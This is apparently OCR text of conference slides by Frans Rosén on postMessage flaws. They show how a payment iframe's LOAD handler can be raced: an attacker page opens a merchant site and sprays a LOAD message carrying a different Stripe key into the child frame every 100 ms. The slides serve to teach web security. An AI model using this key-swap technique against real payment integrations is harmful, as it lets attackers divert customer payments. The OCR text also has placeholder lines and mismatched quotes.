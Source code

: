 Subscribe! 

 if(INIT)	{	 if(e.data[0]==LOAD	&&	originOK)	{ 	initpayment(e.data[1],	e.data[2]) window.removeEventListener	 	('message',	listener) }	 } 

 foodpayments.com 

 if(INIT)	{ 	iframe.postMessage('["LOAD",	 "stripe","pk_abc123"]}’,	'*')	 } 

---

 Author name her 

##### Did you see it? 

 Frans Rosén @fransrosen 

---

 Author name her 

##### Open ilikefood.com from attacker 

 Frans Rosén @fransrosen 

**exampleaco.nz ilikefood.com** 

 Subscribe! 

---

 Author name her 

##### Victim clicks subscribe, iframe is loaded 

 Frans Rosén @fransrosen 

**ilikefood.com** 

 Subscribe! foodpayments.com 

**exampleaco.nz** 

---

 Author name her 

##### Attacker sprays out LOAD to iframe 

 Frans Rosén @fransrosen 

**ilikefood.com** 

 Subscribe! foodpayments.com 

**setInterval(function(){	** 

**		child.frames[0].postMessage('["LOAD","stripe","pk_diffkey"]}’,'*')** 

**},	100)** 

**exampleaco.nz** 

---